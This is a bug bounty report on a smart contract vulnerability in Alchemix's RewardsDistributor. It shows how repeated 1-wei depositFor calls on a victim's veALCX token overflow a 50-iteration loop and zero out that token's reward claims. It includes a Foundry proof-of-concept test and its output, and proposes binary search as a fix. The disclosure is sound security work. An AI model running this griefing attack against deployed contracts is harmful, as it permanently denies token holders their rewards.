 
# RewardDistributor claims can be DoSed through excess amount of userPoint creation

Submitted on Fri May 17 2024 21:47:27 GMT-0400 (Atlantic Standard Time) by @jecikpo for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31399

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/RewardsDistributor.sol

Impacts:
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)
- Permanent freezing of unclaimed royalties

## Description
## Brief/Intro
A malicious user can DoS (permanently lock) veALCX token owner's claims, by creating certain amount of `userPointHistory` entries by calling `VotingEscrow.depositFor()` on a target token multiple times.

## Vulnerability Details
`RewardDistributor` claims are calculated in the `_claimable()` function. The calculation first involves finding the last `userPoint` which was taken before the last `weekCursor`. This is done through a `for` loop that cycles from the last `userEpoch` until it finds one. The loop can cycle up to 50 times:
```
for (uint256 i = 0; i < 50; i++) {
```
hence if there are more `userPoints` than 50 the `_claimable()` function will return 0 as `toDistribute`. 

A malicious user can call the `VotingEscrow.depositFor()` on the attacked veALCX token multiple times and can deposit minimum amount tokens (1 wei is enough), this way he can create the `userPoints` that will DoS the function.

The solution would be to use binary search like in other places in the system.

## Impact Details
Te veALCX token holder loses irreversibly all claims. 

## References
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/RewardsDistributor.sol#L365


        
## Proof of concept
## Proof of Concept
paste the following code into `Minter.t.sol`:
```
    function testDOSClaims() public {
        initializeVotingEscrow();

        // Get a fresh epoch
        hevm.warp(newEpoch());
        voter.distribute();

        uint256 tokenId1 = createVeAlcx(admin, TOKEN_1, MAXTIME, false);
        uint256 tokenId2 = createVeAlcx(beef, TOKEN_1, MAXTIME, false);

        deal(bpt, beef, TOKEN_1);
        hevm.prank(beef);
        IERC20(bpt).approve(address(veALCX), TOKEN_1);
        for (uint256 i; i < 60; i++) {
            hevm.prank(beef);
            veALCX.depositFor(tokenId1, 1);
            hevm.roll(block.number + 1);
        }

        // Finish the epoch
        hevm.warp(newEpoch());
        voter.distribute();

        // Go to the next epoch
        hevm.warp(newEpoch());
        voter.distribute();

         // And the next epoch
        hevm.warp(newEpoch());
        voter.distribute();

        uint256 claimable1 = distributor.claimable(tokenId1);
        uint256 claimable2 = distributor.claimable(tokenId2);
        console.log("claimable on tokenId1: %d", claimable1);
        console.log("claimable on tokenId2: %d", claimable2);
    }
```

We can see in the output that the `tokenId1` that was attacked is returning 0 of claimable amount, while the `tokenId2` returns the correct amount:
```
[PASS] testDOSClaims() (gas: 27805168)
Logs:
  claimable on tokenId1: 0
  claimable on tokenId2: 5158128881524544439089

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 77.54s (39.96s CPU time)
```
